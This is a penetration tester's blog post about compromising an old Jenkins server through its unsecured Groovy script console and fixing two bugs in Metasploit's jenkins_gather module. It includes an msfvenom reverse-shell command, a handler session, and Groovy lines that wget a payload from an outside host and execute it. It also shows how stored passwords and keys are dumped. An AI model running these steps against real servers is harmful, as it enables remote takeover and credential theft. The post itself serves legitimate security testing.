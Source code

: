 ```yaml
---
layout: post
title: "Attacking a temperamental ten-year-old Jenkins server"
author: "Joshua Rogers"
categories: security
---
```


During my pen-testing, I've found it quite common to find Jenkins instances which either have open registration, or an easy-to-guess login combination.
Jenkins has functionality that allows users to execute Groovy script via its [/script/ endpoint](https://www.jenkins.io/doc/book/managing/script-console/).
If this is not secured, an attacker can execute system commands on the Jenkins server, decrypt passwords, and steal keys.

The easiest way to exploit this is to use Metasploit's `exploit/multi/http/jenkins_script_console` module to gain an initial shell, and then `post/multi/gather/jenkins_gather`, to dump all of the passwords and keys.
The general method is outlined in the [documentation for the script](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/gather/jenkins_gather.md#verification-steps).

On my most recent encounter with this, the `jenkins_script_console` module refused to work for some reason.

Instead of using the typical `jenkins_script_console` script, instead I prepared a reverse shell payload myself, using Metasploit's `msfvenom`.
```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.3 LPORT=4444 -f elf -o /tmp/payload.bin
```

I then uploaded payload.bin to my web-server, to be downloaded later on on the Jenkins server.

Back on my host, I run `msfconsole`, and use the following:

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD linux/x86/shell_reverse_tcp
PAYLOAD => linux/x86/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.3:4444 
```

On the Jenkins instance, I ran the following groovy code:
```groovy
"wget http://joshua.hu/payload.bin -O /tmp/".execute().text
"chmod +x /tmp/payload.bin".execute().text
"/tmp/payload.bin".execute().text
```

The connection with the Metasploit module is made, we background the session, and then we use the jenkins_gather 
```
[*] Command shell session 1 opened (10.0.0.3:4444 -> 10.0.0.4:27468) at 2023-02-22 01:10:28 +0000

^Z
Background session 1? [y/N]  y
msf6 exploit(multi/handler) > use post/multi/gather/jenkins_gather
msf6 post(multi/gather/jenkins_gather) > set SESSION 1
SESSION => 1
msf6 post(multi/gather/jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...

[-] No Jenkins installation found or readable, exiting...
```

Aaaand it failed. What?
As it turns out, the server Jenkins was running on had a nearly full disk, and the hardware was over a decade old. The kernel was from 2014!

In order for the Metasploit module to determine where secrets are kept, `find / -name 'secret.key.not-so-secret'` is run, with a 120-second timeout.
On this server, the `find` command was taking over two minutes, and even though I knew where the secrets were stored, I couldn't force the module to use it. The other pitfall was that even if `find` did find the correct folder, it did not halt searching the drive after the first result; it would just time-out, due to the nearly-full drive.

I made a patch to add an optional variable that instructs the module to use a specific directory for the secrets, [metasploit-framework/pull/17681](https://github.com/rapid7/metasploit-framework/pull/17681).

Then, I ran into more trouble:
```
[-] Post failed: NoMethodError undefined method `empty?' for nil:NilClass
[-] Call stack:
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:235:in `block in pretty_print_gathered'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:231:in `each'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:231:in `pretty_print_gathered'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:348:in `gathernix'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:363:in `run'
```

A bug in the jenkins_gather script meant that a (valid) empty SSH key would cause the script to crash. I pushed [metasploit-framework/pull/17416](https://github.com/rapid7/metasploit-framework/pull/17416) to fix that one, too.

